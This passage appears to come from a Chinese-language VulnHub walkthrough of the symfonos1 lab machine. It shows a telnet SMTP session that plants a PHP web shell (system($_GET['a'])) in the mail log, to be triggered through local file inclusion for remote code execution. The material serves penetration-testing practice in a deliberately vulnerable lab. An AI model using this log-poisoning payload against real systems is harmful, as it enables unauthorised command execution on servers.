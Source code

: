 ![](../../../../../../assets/img/安全/实验/靶机/VulnHub/symfonos/symfonos1/16.png)

使用重置后的密码登录后台,尝试拿 shell 无果,google 后发现有人使用 SMTP 日志投毒配合 LFI 来进行 RCE https://www.hackingarticles.in/smtp-log-poisioning-through-lfi-to-remote-code-exceution/

跟着大佬学
```
telnet 192.168.141.148 25
MAIL FROM: <test>
RCPT TO: Helios
data
<?php system($_GET['a']);?>
.
quit
```
